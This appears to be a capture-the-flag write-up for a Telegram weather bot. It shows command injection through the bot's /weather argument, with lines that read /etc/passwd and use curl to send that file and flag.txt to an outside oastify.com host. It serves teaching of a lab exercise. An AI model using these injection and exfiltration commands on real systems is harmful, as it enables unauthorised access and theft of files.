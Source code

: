 # Weather

Open the provided url with Telegram. Run the `/start` command to perform a basic interaction

The response will be:

> Want to know the weather? Just type /weather followed by the city name.

The response to the `/weather` command without arguments is:

> Weather in Rzeszów: 8 °C - UVI: 2.8 - Wind: 3.09 m/s SSE - Humidity: 76% - Pressure: 1007 hPa

Lets try to pass something to the command, for example `/weather Radom`.

Now the answer is:

> Weather in Radom: 9 °C - UVI: 2.72 - Wind: 5.14 m/s S - Humidity: 70% - Pressure: 1017 hPa

What if we try something with a more complex argument? Like `/weather Łódź bałuty`:

> ERROR: Cannot fetch weather data

Looks like the command is badly implemented. How is the response even generated? Could it be a cli tool? Try to do something with the argument. We can see that running `/weather $(whoami)` results in showing output, while `/weather $(/etc/passwd)` shows an error. But `/weather $(cat /etc/passwd | cut -f 1 -d ':' | head -n1)` works fine again. 

Looks like we can use this endpoint as a remote shell, but at the same time the output will not be as good here. Why not try sending the output via curl requests?

```
/weather $(curl -d @/etc/passwd ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com)
```

It works! But where is the flag? Maybe in the working directory?

```
/weather $(curl -d @flag.txt ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com)
```

The flag is in the response:

```
POST / HTTP/1.1
Host: ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

1753{its_raining_maaaaaannn_!}
```

